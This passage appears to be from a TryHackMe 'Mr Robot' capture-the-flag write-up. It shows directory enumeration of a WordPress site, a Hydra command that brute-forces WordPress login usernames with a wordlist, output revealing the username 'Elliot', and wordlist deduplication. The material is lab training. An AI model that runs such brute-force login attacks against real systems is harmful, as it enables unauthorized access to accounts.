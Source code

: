 ```bash
/video (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/wp-login.php (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
```

It's a wordpress! Let's go to `wp-login`.

<a href="/assets/images/tryhackme/mr-robot-ctf/3.png"><img src="/assets/images/tryhackme/mr-robot-ctf/3.png"></a>

Since we dont have any username, let's bruteforce the username.
```bash
$ hydra -L fsocity.dic -p aaaaa 10.10.221.72 -t 25 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-13 10:00:25
[DATA] max 25 tasks per 1 server, overall 25 tasks, 858235 login tries (l:858235/p:1), ~34330 tries per task
[DATA] attacking http-post-form://10.10.221.72:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.221.72   login: Elliot   password: aaaaa
```

Let's sort the wordlists first, because it's to large any many duplicates.
```bash
$ sort fsocity.dic | uniq > sorted_fsociety.dic
$ wc sorted_fsociety.dic                                                                    
11451 11451 96747 sorted_fsociety.dic
$ wc fsocity.dic        
858160  858160 7245381 fsocity.dic
```
